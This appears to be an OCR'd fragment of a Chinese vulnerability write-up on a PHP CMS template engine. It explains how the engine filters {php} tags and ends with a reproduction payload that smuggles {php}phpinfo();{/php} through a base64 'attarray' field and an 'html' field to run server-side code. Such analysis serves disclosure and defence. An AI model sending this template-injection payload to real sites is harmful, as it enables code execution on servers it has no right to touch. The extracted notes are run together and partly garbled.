         // PHP语法检查
        if ($this->config['tpl_deny_php'] && false !== strpos($content, '<?php')) {
            if (config('app_debug')) { // 调试模式下中断模板渲染 by 小虎哥
                throw new Exception('not allow php tag', 11600);
            } else { // 运营模式下继续模板渲染 by 小虎哥
                echo(lang('not allow php tag'));
            }
        }
        return;
    }

4 Line: 将模板中php短标签转换为21 Line: 判断传入的\$content中是否包含了{php}22 Line:
使用正则表达式匹配出\$content中所有包含了"{php}任意内容{/php}"的标签23 Line:
使用三目运算符判断匹配出来的数组中的第0个元素是否有值，如果有值那么将第0个元素的值赋给\$matchs否则将空数组赋给\$matchs24 Line: 判断\$matchs不为空25 Line: 将\$matchs使用foreach循环遍历26 Line: 将\$val中的"{/任意空白字符php}"替换为空并赋给\$valnew27 Line: 将\$valnew中的"多个或零个0-9A-Za-Z\_eval("替换为"intval("28 Line: 将\$valnew中的"开始为eval任意空白字符("替换为"intval("29 Line: 将字符串"{php}{\$valNew}{/php}"赋给\$valnew30 Line: 将\$content中的\$val替换为\$valNew

### 漏洞复现

    Payload:attarray=eyJ7cGhwfXBocGluZm8oKTt7XC9waHB9Ijoie3BocH1waHBpbmZvKCk7e1wvcGhwfSJ9&html={php}phpinfo();{/php}
